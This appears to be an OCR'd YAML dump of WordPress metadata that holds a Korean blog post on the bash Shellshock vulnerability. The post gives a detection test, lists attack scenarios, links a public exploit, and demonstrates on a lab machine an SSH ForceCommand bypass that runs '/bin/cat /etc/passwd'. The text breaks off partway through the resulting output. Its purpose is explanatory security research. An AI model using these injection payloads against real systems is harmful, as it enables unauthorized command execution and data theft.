 ```yaml
  sbg_selected_sidebar: a:1:{i:0;s:1:"0";}
  sbg_selected_sidebar_replacement: a:1:{i:0;s:12:"Blog Sidebar";}
  sbg_selected_sidebar_2: a:1:{i:0;s:1:"0";}
  sbg_selected_sidebar_2_replacement: a:1:{i:0;s:0:"";}
  fusion_builder_content_backup: "9월 24일, bash 의 제로데이 취약점이 공개 되었다. 원래 포스팅할 생각은 없었으나
    OS X에도 이 취약점이 발현 가능하기도하고 나름 재밌겠다 싶어서 포스팅하였다. 일단 이 취약점은 CVSS(Common Vulnerability
    Scoreing System)에서 10점을 받은만큼 위험도가 상당히 높은 취약점이다.\n<h2 class=\"\">I. 진단 방법</h2>\n현재
    OS X 시스템에서 테스팅하려면, 터미널(Terminal) 프로그램을 실행해주고, 다음 명령어를 입력해주면 된다.\n\n[code language=\"bash\"]\n$
    env x='() { :;}; echo vulnerable' bash -c &quot;echo this is a test&quot;\nvulnerable\nthis
    is a test\n[/code]\n\n여기에서 vulnerable 이라는 메시지가 보이면 해당 OS X는 이 취약점을 가지고 있다고 볼 수
    있다. 이 취약점은 bash의 환경변수에 함수를 정의하고 뒤에 원하는 명령어를 작성하면 새로운 bash 프로세스가 실행될 때 환경 변수를 임포트(import)하면서
    뒤의 명령어를 실행하게되는 취약점이다. 만약 패치가 된 시스템이면 다음과 같은 결과를 보여준다.\n\n[code language=\"bash\"]\n$
    env x='() { :;}; echo vulnerable' bash -c &quot;echo this is a test&quot;\nbash:
    warning: x: ignoring function definition attempt\nbash: error importing function
    definition for `x'\nthis is a test\n[/code]\n\n&nbsp;\n<h2 class=\"\">II. 공격 방법</h2>\n<h3
    class=\"\">1. 취약점 발현 시나리오</h3>\n현재 MITRE의 CVE(Common Vulnerabilities and Exposures)
    에 따르면 이 취약점 발현 시나리오는 다음과 같다.\n<ul>\n\t<li>OpenSSH의 sshd의 ForceCommand 기능을 우회하는데
    사용할 수 있다. ForceCommand는 ssh로 접근하는 사용자가 제한된 명령어만 실행하도록 만든다. 하지만 이 취약점으로 허가되지 않은
    명령을 실행할 수 있다. ForceCommand를 사용하더라도 사용자 계정을 알아야 하므로 제한적인 상황에서 사용 가능하다.</li>\n\t<li>아파치
    웹 서버가 mod_cgi, mod_cgid 모듈을 사용하는 경우, CGI 스크립트를 이용하여 bash 명령어를 실행하거나, 서브쉘(subshell)을
    띄울 수 있다. C, Python, Perl로 구현된 CGI의 경우에도 시스템 명령어를 사용하는 경우(system, open) 공격이 가능하다.
    물론 최근에 CGI로 개발되는 사이트가 거의 없긴 하지만 말이다.</li>\n\t<li>DHCP 클라이언트가 악의적인 DHCP 서버로부터 획득한
    값을 쉘 스크립트로 실행할 수 있다. 이 명령어는 루트 권한으로 실행된다. [<a href=\"https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/\"
    target=\"_blank\">Link</a>]</li>\n\t<li>그 외에 권한을 가지는 데몬에서 쉘 스크립트를 실행할 수 있는 경우
    이 취약점을 이용하여 데몬의 권한으로 임의의 명령을 실행할 수 있다.</li>\n</ul>\nbash 명령어가 실행 가능한 모든 서비스에서
    악용이 가능한만큼 위험도가 높다고 볼 수 있다. CVSS가 괜히 10점이 아닌 것이다.. :-)\n<h3 class=\"\">2. 현재 공개된
    익스플로잇 코드</h3>\n현재 테스트 코드가 아닌 공격 목적의 코드는 다음과 같다. (사실 테스트 코드도 뒤에 명령어만 조금 바꿔주면 바로
    공격이 가능하다.)\n\nBash Specially-created Environment Variables Code Injection Vulnerability
    (OS X 10.9.4 ~5 with Apache 2.2.26) [<a title=\"\" href=\"http://www.exploit-db.com/exploits/34766/\"
    target=\"_blank\">Link</a>]\n<h3 class=\"\">3. 테스트</h3>\n웹서버 구동으로 테스트한 사례는 다음과
    같다.\n\n- Hacksum, <a href=\"http://hacksum.net/uncategorized/cve-2014-6271-gnu-bash-원격코드-인젝션-취약점/\"
    target=\"_blank\">[CVE-2014-6271] GNU Bash 원격코드 인젝션 취약점</a>\n\n본래 웹서비스를 대상으로 진행하려
    했으나, 이미 위와 같은 테스트 결과가 있어서, ssh의 ForceCommand 우회 취약점을 테스트하였다. 공격 대상 서버는 다음과 같다.\n<ul>\n\t<li>OS
    X 10.9.5 Mavericks (최신 버전) - bash 3.2.51(1)</li>\n\t<li>원격 로그인(Remote Login) 활성화
     - ssh, sftp</li>\n\t<li>ForceCommand 활성화</li>\n</ul>\nSSH는 ForceCommand가 설정되어
    있지 않으면, 쉘 명령어를 자유롭게 사용할 수 있으므로 취약점으로 보기 어렵다. 하지만  ForceCommand를 설정한 경우에는 취약점이
    될 수 있다. ForceCommand는 사용자가 SSH로 접속 시 해당 옵션에 설정한 명령어만 수행하고 종료되도록 처리하는 옵션이다. 보통은
    이 옵션을 활성화 시키지 않으나, 다음과 같은 경우 사용된다.\n<ul>\n\t<li>사용자 로그인 시 특정 스크립트를 실행</li>\n\t<li>특정
    명령어(rsync 등)를 주기적으로 수행하는 목적</li>\n\t<li>중간에 프록시 SSH 서버를 두고 접속 시 다른 서버로 제어를 옮기도록
    처리</li>\n</ul>\n우선 공격 대상 서버는 다음과 같이 설정(sshd_config)하였다.\n\n[code language=\"bash\"]\n#
    Example of overriding settings on a per-user basis\nMatch User victim\nX11Forwarding
    no\nAllowTcpForwarding no\nForceCommand ls\n[/code]\n\n위와 같이 설정하면 클라이언트가 접속 시,
    ls 명령어 결과만 출력하고 종료된다.\n\n[code language=\"bash\"]\nn0fates-Mac-mini:~ n0fate$
    ssh victim@172.16.237.128\nDesktop Downloads Movies Pictures\nDocuments Library
    Music Public\nConnection to 172.16.237.128 closed.\n[/code]\n\n클라이언트 접속 시 뒤에 인자를
    붙이더라도 ls의 인자로 붙어 처리되므로 원하는 명령어를 수행하지 못하고 종료된다. 세미콜론을 사용하더라도 클라이언트의 bash에서 핸들링하므로
    올바른 처리가 안된다.\n\n[code language=\"bash\"]\n$ ssh victim@172.16.237.128 ; /usr/bin/id\nDesktop
    Downloads Movies Pictures\nDocuments Library Music Public\nConnection to 172.16.237.128
    closed.\nuid=501(n0fate) gid=20(staff) groups=20(staff),….\n$\n[/code]\n\n\n[code
    language=\"bash\"]\n$ ssh victim@172.16.237.128 &quot;; /usr/bin/id&quot;\nDesktop
    Downloads Movies Pictures\nDocuments Library Music Public\nConnection to 172.16.237.128
    closed.\n$\n[/code]\n\n하지만, 이번 취약점의 경우에는 환경 변수에 값을 넣으면서 생기는 취약점이기 때문에 SSH의 설정을
    무시하고 명령어가 실행된다. 이번 취약점을 이용하여 코드를 작성하면 다음과 같은 결과를 확인할 수 있다.\n\n[code language=\"bash\"]\n$
    ssh victim@172.16.237.128 '() { :;}; /bin/cat /etc/passwd'\n##\n# User Database\n#\n#
    Note that this file is consulted directly only when the system is running\n# in
    single-user mode.  At other times this information is provided by\n# Open Directory.\n#\n#
    See the opendirectoryd(8) man page for additional information about\n# Open Directory.\n##\nnobody:*:-2:-2:Unprivileged
    User:/var/empty:/usr/bin/false\nroot:*:0:0:System Administrator:/var/root:/bin/sh\ndaemon:*:1:1:System
```